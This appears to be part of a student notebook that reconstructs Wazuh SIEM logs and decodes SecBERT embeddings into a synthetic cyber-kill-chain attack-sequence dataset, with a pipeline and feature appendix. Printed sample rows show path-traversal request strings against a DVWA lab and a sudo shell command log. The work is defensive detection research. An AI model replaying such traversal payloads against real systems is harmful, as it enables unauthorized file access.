    ref_texts = ref_texts[~ref_texts.isin(['MISSING', 'nan', 'None', ''])]
    unique_ref = ref_texts.unique().tolist()
    if not unique_ref:
        continue
    
    print(f"   📝 {text_col}: {len(unique_ref)} texts, {len(emb_col_names)} dims")
    ref_embs = secbert_model.encode(unique_ref, batch_size=64, show_progress_bar=True, device=device)
    from sklearn.decomposition import PCA
    pca_inv = PCA(n_components=len(emb_col_names))
    ref_embs_reduced = pca_inv.fit_transform(ref_embs)
    row_emb_matrix = seq_df[emb_col_names].values
    sims = cosine_similarity(row_emb_matrix, ref_embs_reduced)
    nearest = [unique_ref[idx] for idx in sims.argmax(axis=1)]
    decoded_columns[f'{prefix}_decoded_text'] = nearest
    print(f"      ✅ mean cosine sim: {sims.max(axis=1).mean():.4f}")

# ── 4. Build final dataset ──
print(f"\n{'=' * 70}")
print("💾 BUILDING FINAL DATASET")
print("=" * 70)

seq_final_with_log = seq_real.copy()

if full_logs is not None:
    seq_final_with_log['_source.full_log'] = full_logs
    cols = list(seq_final_with_log.columns)
    cols.remove('_source.full_log')
    insert_idx = cols.index('ckc_stage') + 1 if 'ckc_stage' in cols else 2
    cols.insert(insert_idx, '_source.full_log')
    seq_final_with_log = seq_final_with_log[cols]

for col_name, texts in decoded_columns.items():
    seq_final_with_log[col_name] = texts

print(f"   Shape: {seq_final_with_log.shape[0]:,} rows × {seq_final_with_log.shape[1]} cols")
if full_logs is not None:
    print(f"   _source.full_log: {seq_final_with_log['_source.full_log'].notna().sum():,} non-null")

# ── 5. Save to D:\PFE_CKC\ ──
save_dir = r'D:\PFE_CKC'
os.makedirs(save_dir, exist_ok=True)

xlsx_path = os.path.join(save_dir, 'attack_sequences.xlsx')
seq_final_with_log.to_excel(xlsx_path, index=False)
print(f"\n✅ Excel: {xlsx_path}")

csv_path = os.path.join(save_dir, 'attack_sequences.csv')
seq_final_with_log.to_csv(csv_path, index=False)
print(f"✅ CSV: {csv_path}")

meta = {
    'timestamp': datetime.now().isoformat(),
    'n_sequences': len(sequences),
    'n_rows': len(seq_final_with_log),
    'n_columns': len(seq_final_with_log.columns),
    'columns': list(seq_final_with_log.columns),
    'full_log_matching': match_counts if full_logs else 'N/A',
    'decoded_text_columns': list(decoded_columns.keys()),
    'length_distribution': {str(k): v for k, v in sorted(length_dist.items())},
    'ckc_stage_distribution': seq_final_with_log['ckc_stage'].value_counts().to_dict(),
    'all_end_with_s7': ends_with_s7 == len(sequences),
}
meta_path = os.path.join(save_dir, 'attack_sequences_metadata.json')
with open(meta_path, 'w') as f:
    json.dump(meta, f, indent=2, default=str)
print(f"✅ Metadata: {meta_path}")

# ── 6. Samples ──
print(f"\n{'=' * 70}")
print("📋 SAMPLE ROWS")
print("=" * 70)
for seq_id in range(min(3, len(sequences))):
    seq_info = sequences[seq_id]
    rows = seq_final_with_log[seq_final_with_log['sequence_id'] == seq_id].sort_values('step_index')
    print(f"\n🔴 Seq #{seq_id} — {seq_info['pattern']} ({seq_info['length']} steps)")
    for _, row in rows.iterrows():
        step = int(row['step_index'])
        stage = row['ckc_stage']
        fl = str(row.get('_source.full_log', ''))[:120] if full_logs else 'N/A'
        decoder = str(row.get('_source.decoder.name', ''))[:20]
        print(f"   Step {step} [{stage}] decoder={decoder}")
        print(f"      full_log: {fl}")

print(f"\n{'=' * 70}")
print("🎉 COMPLETE!")
print(f"   📁 Saved to: {save_dir}")
print(f"   📊 {len(sequences)} seqs, {len(seq_final_with_log):,} rows × {seq_final_with_log.shape[1]} cols")
print(f"   📝 Includes: _source.full_log + decoded text columns")
print(f"   ✅ All sequences end with S7")
print("=" * 70)

🔄 RECONSTRUCTING _source.full_log + DECODING EMBEDDINGS → TEXT

📥 Loading original data: c:\Users\KassoussiOussama-PFE\Downloads\pfe\combined_dataset_final.xlsx
   Shape: (115726, 176)
   ✅ Found '_source.full_log': 115,146 non-null values
   Malicious rows: 25,418

🔗 Built full_log lookup:
   Key combinations: 31
   Total entries: 24,548

📊 Full_log matching results:
   exact: 1,682 (78.7%)
   decoder_match: 1 (0.0%)
   source_only: 0 (0.0%)
   random: 455 (21.3%)

──────────────────────────────────────────────────────────────────────
📝 Decoding SecBERT embedding columns → text...
   📝 _source.data.audit.command: 3 texts, 2 dims


Batches: 100%|██████████| 1/1 [00:00<00:00, 27.33it/s]


      ✅ mean cosine sim: 0.9992
   📝 _source.data.audit.exe: 3 texts, 2 dims


Batches: 100%|██████████| 1/1 [00:00<00:00, 21.48it/s]


      ✅ mean cosine sim: 0.7186
   📝 _source.syscheck.path: 102 texts, 16 dims


Batches: 100%|██████████| 2/2 [00:00<00:00,  4.18it/s]


      ✅ mean cosine sim: 0.8156
   📝 _source.data.url: 207 texts, 16 dims


Batches: 100%|██████████| 4/4 [00:00<00:00, 10.11it/s]


      ✅ mean cosine sim: 0.7311

💾 BUILDING FINAL DATASET
   Shape: 2,138 rows × 28 cols
   _source.full_log: 2,138 non-null

✅ Excel: D:\PFE_CKC\attack_sequences.xlsx
✅ CSV: D:\PFE_CKC\attack_sequences.csv
✅ Metadata: D:\PFE_CKC\attack_sequences_metadata.json

📋 SAMPLE ROWS

🔴 Seq #0 — S3 → S4 → S5 → S6 → S7 (5 steps)
   Step 0 [S3] decoder=web-accesslog
      full_log: 192.168.204.1 - - [06/Oct/2023:01:22:55 +0500] "GET /DVWA/vulnerabilities/xss_r/?name=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%
   Step 1 [S4] decoder=web-accesslog
      full_log: 192.168.204.1 - - [06/Oct/2023:01:21:30 +0500] "GET /DVWA/vulnerabilities/xss_r/?name=%2e%2e%2f%2e%2e%2f%2e%2e%2fwindows
   Step 2 [S5] decoder=sca
      full_log: Oct 18 23:45:57 sohaib-virtual-machine sudo:   sohaib : TTY=pts/7 ; PWD=/home/sohaib ; USER=root ; COMMAND=/usr/bin/sh -
   Step 3 [S6] decoder=sca
      full_log: 192.168.204.1 - - [06/Oct/2023:01:21:27 +0500] "GET /DVWA/vulnerabilities/xss_r/?name=%5C%2e%2e%252f%5C%2e%2e%252f%5C%2e
   

## 📚 Appendix: Complete Pipeline Architecture & Feature Reference

### 🏗️ End-to-End Pipeline Architecture

```
┌─────────────────────────────────────────────────────────────────────────┐
│                   REaLTabFormer + SecBERT Complete Pipeline              │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  PHASE 1: DATA PREPARATION                                              │
│  ┌──────────────┐    ┌──────────────┐    ┌──────────────────────┐      │
│  │  Raw Wazuh   │───▶│  Feature     │───▶│  Preprocessing       │      │
│  │  SIEM Data   │    │  Selection   │    │  + Derived Features  │      │
│  │  (100+ cols) │    │  (37 cols)   │    │  + Boolean Flags     │      │
│  └──────────────┘    └──────────────┘    └──────────────────────┘      │
│                                                   │                      │
│  PHASE 2: EMBEDDING GENERATION                    ▼                      │
│  ┌──────────────┐    ┌──────────────┐    ┌──────────────────────┐      │
│  │  SecBERT     │◀───│  Textual     │◀───│  Column Type         │      │
│  │  Encoder     │    │  Columns     │    │  Classification      │      │
│  │  (768-dim)   │    │  (6 cols)    │    │                      │      │
│  └──────────────┘    └──────────────┘    └──────────────────────┘      │
│         │                                                                │
│         ▼                                                                │
│  PHASE 3: MODEL TRAINING                                                │
│  ┌──────────────────────────────────────────────────────────────────┐  │
│  │                    REaLTabFormer (GPT-2)                           │  │
│  │  ┌────────────────────────────────────────────────────────────┐  │  │
│  │  │  Sensitivity Threshold Computation (GPU-accelerated)        │  │  │
│  │  │  └─▶ Bootstrap sampling with SecBERT embeddings             │  │  │
│  │  └────────────────────────────────────────────────────────────┘  │  │
│  │  ┌────────────────────────────────────────────────────────────┐  │  │
│  │  │  Transformer Training (150 epochs)                          │  │  │
│  │  │  └─▶ Row serialization → GPT-2 → Next-token prediction     │  │  │
│  │  └────────────────────────────────────────────────────────────┘  │  │
│  └──────────────────────────────────────────────────────────────────┘  │
│         │                                                                │
│         ▼                                                                │
│  PHASE 4: GENERATION & VALIDATION                                       │
│  ┌──────────────┐    ┌──────────────┐    ┌──────────────────────┐      │
│  │  Synthetic   │───▶│  Quality     │───▶│  Combined Dataset    │      │
│  │  Generation  │    │  Validation  │    │  (Real + Synthetic)  │      │
│  │  (2x ratio)  │    │  (KS/L1/ML)  │    │                      │      │
│  └──────────────┘    └──────────────┘    └──────────────────────┘      │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

---

### 📋 Complete Feature Reference (37 Features)

| # | Category | Feature Name | Type | SecBERT |
|---|----------|--------------|------|---------|
| 1 | **Target** | `malicious` | categorical | ❌ |
| 2 | **Target** | `cyber_kill_chain_summary` | categorical | ❌ |
| 3 | **Top Features** | `_source.rule.level` | numeric | ❌ |
| 4 | **Top Features** | `_source.rule.firedtimes` | numeric | ❌ |
| 5 | **Top Features** | `_source.decoder.name` | categorical | ❌ |
| 6 | **Top Features** | `_source.location` | categorical | ❌ |
| 7 | **Top Features** | `_source.@timestamp` | text | ❌ |
| 8 | **Top Features** | `_source.data.srcip` | categorical | ❌ |
| 9 | **Top Features** | `_source.syscheck.md5_after` | text | ❌ |
| 10 | **Top Features** | `_source.syscheck.sha256_after` | text | ❌ |
| 11 | **Textual** | `_source.rule.description` | text | ✅ |
| 12 | **Textual** | `_source.data.command` | text | ✅ |
| 13 | **MITRE** | `_source.rule.mitre.tactic` | categorical | ❌ |
| 14 | **MITRE** | `_source.rule.mitre.id` | categorical | ❌ |
| 15 | **MITRE** | `_source.rule.groups` | categorical | ❌ |
| 16 | **Audit** | `_source.data.audit.syscall` | categorical | ❌ |
| 17 | **Audit** | `_source.data.audit.exe` | text | ✅ |
| 18 | **Audit** | `_source.data.audit.command` | text | ✅ |
| 19 | **Audit** | `_source.data.audit.uid` | numeric | ❌ |
| 20 | **Audit** | `_source.data.audit.euid` | numeric | ❌ |
| 21 | **Audit** | `_source.data.audit.gid` | numeric | ❌ |
| 22 | **Audit** | `_source.data.audit.auid` | numeric | ❌ |
| 23 | **Audit** | `_source.data.audit.success` | categorical | ❌ |
| 24 | **Syscheck** | `_source.syscheck.event` | categorical | ❌ |
| 25 | **Syscheck** | `_source.syscheck.path` | text | ✅ |
| 26 | **Syscheck** | `_source.syscheck.perm_before` | categorical | ❌ |
| 27 | **Syscheck** | `_source.syscheck.perm_after` | categorical | ❌ |
| 28 | **Syscheck** | `_source.syscheck.size_before` | numeric | ❌ |
| 29 | **Syscheck** | `_source.syscheck.size_after` | numeric | ❌ |
| 30 | **Syscheck** | `_source.syscheck.changed_attributes` | categorical | ❌ |
| 31 | **SCA** | `_source.data.sca.check.result` | categorical | ❌ |
| 32 | **SCA** | `_source.data.sca.failed` | numeric | ❌ |
| 33 | **SCA** | `_source.data.sca.passed` | numeric | ❌ |
| 34 | **SCA** | `_source.data.sca.score` | numeric | ❌ |
| 35 | **Network** | `_source.data.protocol` | categorical | ❌ |
| 36 | **Network** | `_source.data.srcport` | numeric | ❌ |
| 37 | **Network** | `_source.data.url` | text | ✅ |
| 38 | **Flags** | `has_audit` | boolean | ❌ |
| 39 | **Flags** | `has_syscheck` | boolean | ❌ |
| 40 | **Flags** | `has_sca` | boolean | ❌ |
| 41 | **Flags** | `has_network` | boolean | ❌ |

---

### 🔐 SecBERT-Enhanced Columns (6 Total)

| Column | Content Type | Security Relevance |
|--------|--------------|-------------------|
| `_source.rule.description` | Rule text | Attack pattern descriptions |
| `_source.data.command` | Shell commands | Malicious command detection |
| `_source.data.audit.exe` | Executable paths | Process execution patterns |
| `_source.data.audit.command` | Audit logs | System command monitoring |
| `_source.syscheck.path` | File paths | File integrity changes |
| `_source.data.url` | URLs | C2 communication, downloads |

---

### 💡 Tips for Best Results

1. **Training Duration**: Increase epochs to 200-300 if quality metrics are below threshold
2. **GPU Memory**: Monitor with `nvidia-smi -l 1` during training
3. **Batch Size**: Reduce if encountering OOM errors
4. **Coverage**: Check categorical coverage - low coverage may indicate rare category dropout
5. **MITRE Validation**: Verify MITRE ATT&CK mappings are coherent in synthetic data
6. **SecBERT**: Ensure text columns maintain semantic meaning post-generation

---

### 📖 References

- **REaLTabFormer Paper**: [Generating Realistic Tabular Data using Transformers](https://arxiv.org/abs/2302.02041)
- **SecBERT**: [A Pre-trained Language Model for Cybersecurity](https://huggingface.co/jackaduma/SecBERT)
- **GPT-2**: [Language Models are Unsupervised Multitask Learners](https://openai.com/research/better-language-models)
- **MITRE ATT&CK**: [Enterprise Attack Framework](https://attack.mitre.org/)